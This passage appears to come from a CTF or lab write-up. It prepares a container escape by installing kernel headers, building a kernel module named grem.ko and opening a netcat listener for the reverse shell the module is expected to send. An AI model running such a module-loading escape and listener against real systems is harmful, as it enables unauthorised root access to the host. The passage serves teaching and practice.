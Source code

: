 The necessary parts of the kernel to `make` our module have however been disabled. Lucky for us the needed `.deb` packes are in the root of the machine.

```
root@91d87563a4c2:/root# ls /
bin  boot  dev  etc  home  lib  lib64  linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb  linux-headers-4.15.0-132_4.15.0-132.136_all.deb  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@91d87563a4c2:/root#
```

First we need to set the path for `dpkg` to install them.

```
root@91d87563a4c2:/# export PATH=$PATH:/usr/local/sbin/
root@91d87563a4c2:/# export PATH=$PATH:/usr/sbin/
root@91d87563a4c2:/# export PATH=$PATH:/sbin
```

Afterwards we install both packages with `dpkg`.

```
root@91d87563a4c2:/# dpkg -i linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb
(Reading database ... 79019 files and directories currently installed.)
Preparing to unpack linux-headers-4.15.0-132-generic_4.15.0-132.136_amd64.deb ...
Unpacking linux-headers-4.15.0-132-generic (4.15.0-132.136) over (4.15.0-132.136) ...
Setting up linux-headers-4.15.0-132-generic (4.15.0-132.136) ...
root@91d87563a4c2:/# dpkg -i linux-headers-4.15.0-132_4.15.0-132.136_all.deb
(Reading database ... 79019 files and directories currently installed.)
Preparing to unpack linux-headers-4.15.0-132_4.15.0-132.136_all.deb ...
Unpacking linux-headers-4.15.0-132 (4.15.0-132.136) over (4.15.0-132.136) ...
Setting up linux-headers-4.15.0-132 (4.15.0-132.136) ...
```

With all conditions met we can now finally `make` our kernel module.

```
root@91d87563a4c2:/root# make
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /root/grem.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/grem.mod.o
  LD [M]  /root/grem.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
```

This gives use the `grem.ko` module which we now can install. Before we do that we setup our listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
